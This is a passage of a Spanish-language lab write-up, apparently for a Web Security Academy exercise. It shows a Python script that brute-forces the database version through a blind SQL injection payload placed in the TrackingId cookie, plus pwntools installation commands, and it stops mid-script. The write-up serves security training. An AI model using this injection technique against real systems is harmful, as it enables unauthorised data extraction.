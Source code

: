 Como vamos a ir iterando para a eliminar los caracteres que se repiten

```
#!/usr/bin/python3

import string

characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))
print(characters)
```

```
# python print_characters.py
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ 	
```

Debido a que el `Cluster bomb` de `Burpsuite` no es tan cómodo usarlo, vamos a usar `python` para que nos `dumpee` el output completo de la instrucción `version()`. Lo primero que debemos hacer es instalar `pwntools`

```
# sudo apt-get update
# sudo apt-get install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
# python3 -m pip install --upgrade pip --break-system-packages
# python3 -m pip install --upgrade pwntools --break-system-packages
```

 He creado este script para obtener la información de forma más clara que ejecutando un `Cluster bomb` mediante `Burpsuite`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0aa800780323059880b6f94e001d0032.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 135):
            for character in characters:
                cookies = {
                    'TrackingId': "Pls1hO5hFWG9D8iI' and (select substr(version(),%d,1)='%s')-- - " % (
                    position, character),
                    'session': "9Urch8ydtajImJUb0xQSyEsITyiiKOfw"
                }

```